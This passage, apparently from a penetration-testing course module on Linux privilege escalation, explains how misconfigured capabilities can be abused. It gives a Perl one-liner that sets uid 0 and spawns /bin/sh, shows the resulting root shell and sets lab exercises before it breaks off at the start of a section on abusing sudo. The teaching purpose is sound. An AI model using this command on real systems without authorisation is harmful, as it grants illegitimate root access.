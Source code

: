 Even though they seem similar, capabilities, setuid, and the setuid flag are located in different places within the Linux ELF file format.

To exploit this capability misconfiguration, we could check the [*GTFOBins*](https://gtfobins.github.io/) website. This site provides an organized list of UNIX binaries and how can they be misused to elevate our privileges.

Searching for "Perl" on the GTFOBins website, we'll find precise instructions for which command to use to exploit capabilities. We'll use the whole command, which executes a shell along with a few POSIX directives enabling setuid.

```
joe@debian-privesc:~$ perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
perl: warning: Setting locale failed.
...
# id
uid=0(root) gid=1000(joe) groups=1000(joe),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),112(bluetooth),116(lpadmin),117(scanner)
```

> Listing 47 - Getting a root shell through capabilities exploitation

Great! We managed to gain a root shell via yet another misconfiguration vector.

## Resources

Some of the labs require you to start the target machine(s) below.

Please note that the IP addresses assigned to your target machines may not match those referenced in the Module text and video.

Linux Privilege Escalation - Abusing Setuid Binaries and Capabilities - VM #1

Linux Privilege Escalation - Abusing Setuid Binaries and Capabilities - VM #2

#### Labs

1. Connect to VM 1 and repeat the steps discussed in this section in order to obtain a root shell. Which utility can we use to manually search for misconfigured capabilities?

Answer

2. Connect to VM 2 and gain a root shell by abusing capabilities.

Answer

## 18.4.2. Abusing Sudo

On UNIX systems, the [*sudo*](https://man7.org/linux/man-pages/man8/sudo.8.html) utility can be used to execute a command with elevated privileges. To be able to use sudo, our low-privileged user account must be a member of the sudo group (on Debian based Linux distributions). The word "sudo" stands for "Superuser-Do", and we can think of it as changing the effective user-id of the executed command.

Custom configurations of sudo-related permissions can be applied in the [**/etc/sudoers**](https://man7.org/linux/man-pages/man5/sudoers.5.html) file. We can use the **\-l** or **\--list** option to list the allowed commands for the current user.
